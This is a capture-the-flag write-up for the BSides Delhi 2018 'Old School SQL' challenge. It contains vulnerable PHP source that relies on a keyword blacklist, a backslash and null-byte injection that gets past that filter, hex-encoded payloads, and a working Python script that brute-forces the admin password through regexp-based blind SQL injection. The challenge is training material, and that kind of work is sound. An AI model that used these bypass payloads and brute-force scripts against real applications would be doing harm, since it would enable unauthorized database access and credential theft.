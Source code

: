 # BSides-Delhi-CTF-2018-Old-School-SQL

``` 
Being the admin is great
Link(http://35.200.215.237/)
```

# Source Code

```
<?php 
include "./config.php";
include "./flag.php";
error_reporting(0);

$black_list = "/admin|guest|limit|by|substr|mid|like|or|char|union|select|greatest|%00|\'|";
$black_list .= "=|_| |in|<|>|-|chal|_|\.|\(\)|#|and|if|database|where|concat|insert|having|sleep/i";
if(preg_match($black_list, $_GET['user'])) exit(":P"); 
if(preg_match($black_list, $_GET['pw'])) exit(":P"); 


$query="select user from chal where user='$_GET[user]' and pw='$_GET[pw]'"; 

$result = mysql_query($query);
$result = mysql_fetch_array($result);
$admin_pass = mysql_fetch_array(mysql_query("select pw from chal where user='admin'"));
echo "<h1>query : <strong><b>{$query}</b></strong><br></h1>";
if($result['user']) echo "<h2>Welcome {$result['user']}</h2>"; 
if(($admin_pass['pw'])&&($admin_pass['pw'] === $_GET['pw'])){
    echo $flag;
}

highlight_file(__FILE__); 

?>
```

Here the single quote `'` is blocked by php preg_match so first we need to bypass the query 

```
select user from chal where user='\' and pw=';%00'
```
now `and pw=` are consider as a string and we can write our query to get try to get the flag
i try to write the subquery to get the flag but i found that most of the sql keywords are blocked by preg_match. so i tried to pass the HEX format in the query.

```
GET /?user=\&pw=||(0x313D31);%00
```
it works but i did not get flag, as we need the password to print the flag, so we need to apply the brute force to get the flag. let write a script to crack the password

```
import requests
url = "http://35.200.215.237/?user=\&pw=||(user/**/regexp/**/0x61646d696e/**/%26%26/**/pw/**/regexp/**/%22^"

character = [1,2,3,4,5,6,7,8,9,0,'a','b','c','d','e','f','g','h','i','j','k','l','m','n','o','p','q','r','s','t','u','v','w','x','y','z']
passowrd_length = 10
password = ""
for i in range(1,passowrd_length):
    password_found = False
    for c in character:
        query = url+(password+str(c)+"%22);%00")
        send_query = requests.get(query)
        if "Welcome admin" in send_query.text:
            password = password + str(c)
            password_found = True
            break
    if password_found == False:
        break

print(password)
```

this print out the password ``` 17292115 ```

and after passing the passowrd we found the flag i.e flag{sQ1_inj3c7i0n_i5_v3ry_3asy}




